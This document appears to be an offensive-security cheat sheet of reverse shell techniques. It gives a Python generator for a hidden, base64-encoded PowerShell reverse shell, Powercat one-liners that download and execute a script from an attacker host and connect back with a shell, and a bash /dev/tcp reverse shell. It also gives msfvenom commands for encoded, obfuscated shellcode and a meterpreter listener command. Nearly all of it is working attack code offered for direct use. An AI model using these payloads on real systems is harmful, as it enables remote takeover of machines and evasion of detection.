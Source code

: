```yaml
---
description: Various reverse shell techniques in fast go cheat-sheet format
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shells

### PowerShell Base64

Generate base64 encoded payload for reverse shell for windows target.

{% code title="windows-rev-b64.py" overflow="wrap" %}
```python
import sys
import base64

def generate_payload(ip, port):
    payload = (
        f"$client=New-Object System.Net.Sockets.TCPClient('{ip}',{port});"
        "$stream=$client.GetStream();"
        "[byte[]]$bytes=0..65535|%{0};"
        "while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){"
        "$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);"
        "$sendback=(iex $data 2>&1 | Out-String);"
        "$sendback2=$sendback+'PS '+(pwd).Path+'> ';"
        "$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);"
        "$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
        "$client.Close()"
    )
    return payload

def generate_cmd(ip, port):
    payload = generate_payload(ip, port)
    cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    return cmd

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python script.py <ip> <port>")
        sys.exit(1)
    
    ip = sys.argv[1]
    port = sys.argv[2]
    
    cmd = generate_cmd(ip, port)
    print(cmd)

```
{% endcode %}

Usage:

```bash
python windows-rev-b64.py <local_ip> <local_port>
```

### Powercat

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start a `netcat` listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

### Bash pipe

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

### Msfvenom&#x20;

Generating shell code

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```
{% endcode %}

Generating obfuscated shell code with bad words:

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
